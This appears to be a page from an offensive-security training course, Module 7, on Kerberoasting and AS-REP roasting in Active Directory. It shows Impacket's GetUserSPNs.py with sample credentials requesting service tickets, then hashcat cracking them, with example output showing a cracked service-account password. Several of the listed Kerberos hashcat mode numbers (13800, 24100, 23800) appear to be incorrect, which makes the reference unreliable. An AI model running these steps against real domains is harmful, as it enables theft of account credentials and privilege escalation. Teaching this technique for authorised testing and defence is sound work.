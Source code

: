 ### Next Steps  
- **Module 7**: Kerberoasting & AS-REP Roasting Attacks  

---

## <a name="module-7"></a> Module 7: Kerberoasting & AS-REP Roasting Attacks

### Introduction  
Perform offline cracking by requesting Kerberos service tickets (Kerberoast) or AS-REP for accounts without pre-auth.

### Definitions  
1. **TGT (Ticket-Granting Ticket)**: Proof of identity.  
2. **TGS (Ticket-Granting Service)**: Tickets for specific services.  
3. **Kerberoasting**: Requesting TGS for SPN; crack offline.  
4. **AS-REP Roasting**: Target accounts with `DONT_REQUIRE_PREAUTH`; crack AS-REP offline.  
5. **Hashcat Modes**:  
   - `13100`: Kerberos 5 TGS-REP (RC4)  
   - `13800`: Kerberos 5 TGS-REP (AES-128)  
   - `24100`: Kerberos 5 TGS-REP (AES-256)  
   - `18200`: Kerberos 5 AS-REP (RC4)  
   - `23800`: Kerberos 5 AS-REP (AES)

### Why It Matters  
- Offline cracking—no lockout.  
- Service account or AS-REP user cracked often yields elevated rights.

### Tools & Commands  

#### Impacket’s GetUserSPNs.py (Kerberoast)  
```bash
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket/examples
python3 GetUserSPNs.py corp.local/jdoe:Password123 -request -outputfile spn_tickets.hash
```
- **Expected Output**:  
  ```
  [+] Getting SPNs
  [+] Requesting TGS for: SRV-SQL01$
  [+] Saving ticket to spn_tickets.hash
  ...
  ```

#### Crack with Hashcat  
```bash
hashcat -m 13100 spn_tickets.hash /path/to/wordlist.txt
```
- **Crack Output Example**:  
  ```
  svc_sql:Passw0rd!
  ```
